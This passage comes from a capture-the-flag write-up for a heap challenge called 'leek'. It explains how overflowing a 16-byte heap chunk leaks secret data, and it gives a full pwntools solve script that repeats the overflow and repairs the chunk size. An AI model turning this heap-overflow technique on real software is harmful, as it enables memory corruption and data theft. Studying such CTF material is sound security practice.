 To do that, we supply `0x00 * 24` into the `userinput_chunk` which fills up `0x234d2a0` until we reach the size of the next chunk, where we write `0x31` while being careful to ensure correct padding, e.g. `0x31 + (0x00 * 6)`.

## Solution

TLDR; when we supply 31 bytes into our 16 byte `userinput_chunk`, we merge the chunks so that when our chunk is printed back to us, we also get the random data.

After supplying the secret, we need to repair the heap layout (fix the size of the random data chunk), ready for the next loop.

#### solve.py

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4015e2
break *0x4016b5
heap
continue
'''.format(**locals())

# Binary filename
exe = './leek'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

for i in range(100):
    # Chunk is 16 bytes, then 8 bytes size of chunk, then the size of next chunk
    # Send 31 bytes of data is just enough to overwrite size of next chunk (secret data)
    io.sendlineafter(b'):', cyclic(31))
    io.recvline()

    # Now, when it prints out userinput_chunk, it prints the merged chunk (leak secret)
    secret = io.recvline()[0:32]

    # Send the secret
    io.sendafter(b'What\'s my secret?', secret)

    # Fix the chunk (we need to repair it for the next iteration)
    io.sendlineafter(b'Say what you want:', (b'\x00' * 24) + b'\x31' + (b'\x00' * 6))
```